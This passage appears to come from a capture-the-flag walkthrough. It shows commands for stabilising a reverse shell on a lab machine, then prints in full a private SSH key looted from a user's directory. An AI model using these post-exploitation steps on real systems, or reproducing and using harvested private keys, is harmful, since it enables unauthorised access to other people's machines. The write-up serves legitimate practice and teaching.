 Now stabilizing the reverse shell

```
python3 -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
CTRL + Z
stty raw -echo;fg
```

After looting around i found the ssh-keys for the user liam in `/opt/liam/ssh-keys`

Here's the id_rsa file

```
-----BEGIN OPENSSH PRIVATE KEY-----
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
XMUbx9M/i2At8AAAAKbGlhbUBsdW5hcgE=
-----END OPENSSH PRIVATE KEY-----
```
